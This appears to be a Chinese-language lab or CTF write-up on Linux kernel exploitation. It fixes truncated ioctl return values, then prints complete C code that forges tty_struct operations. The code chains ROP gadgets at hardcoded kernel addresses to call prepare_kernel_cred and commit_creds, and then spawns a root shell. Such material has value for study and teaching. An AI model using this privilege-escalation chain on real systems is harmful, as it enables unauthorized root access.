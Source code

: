 按照上述思路构建攻击代码后，发现并不能产生预期结果。查看调试信息发现，获取到的地址高位均为 0。分析得知，`ioctl`的返回值类型是 `int`，因此对于返回的地址信息，我们还需要将其对`0xffff000000000000`做按位或运算。
![image.png](./assets/1653895154442-66483aa2-c4da-4413-8fd2-15a40ee9c65e.png)

对应进行修改后，我们写出了这样的代码：
```c
// ==== Task 3 ====
const u64 gadget1Addr = 0xffff80001083aa44;
const u64 gadget2Addr = 0xffff80001083aa5c;
const u64 gadget3Addr = 0xffff80001083aa74;
const u64 pkcAddr = 0xffff8000100b6030;
const u64 ccAddr = 0xffff8000100b5bac;

void prepareTtyStruct(int dev);

int main() {
	DEBUG(buf, XYX_RED);
	// Task 1:
	int dev = doubleOpen();
	int ptmx = checkMagic(dev);
	
	// Task 3:
	prepareTtyStruct(dev);
	
	// > Step 1:
	forgedOps[12] = gadget3Addr;
	u64 ttyAddr = ioctl(ptmx, 0, 0) | 0xffff000000000000;
	DEBUG(ttyAddr, XYX_RED);
	
	// > Step 2:
	forgedOps[12] = gadget2Addr;
	forgedOps[5] = pkcAddr;
	u64 credRetVal = ioctl(ptmx, 0, forgedOps) | 0xffff000000000000;
	DEBUG(credRetVal, XYX_CYAN);
	
	// > Step 3: (buf[7] has been set in prepareForgeOps())
	forgedOps[12] = gadget1Addr;
	ioctl(ptmx, 0, credRetVal);
	
	system("/bin/sh");
	
	return 0;
}

void prepareTtyStruct(int dev) {
	memset(forgedOps, -1, sizeof forgedOps);
	
	char newBuf[0x40];
	u64 forgedOpsPtr = (u64)(&forgedOps);
	memcpy(newBuf, buf, 0x40);
	memcpy(newBuf + 24, &forgedOpsPtr, 8);
	memcpy(newBuf + 0x38, &ccAddr, 8);
	
	for (int i = 0; i < 0x40; i += 8) {
		DEBUGI(*(u64 *)(newBuf + i), XYX_PURPLE);
	}
	
	write(dev, newBuf, 0x40);
}
```
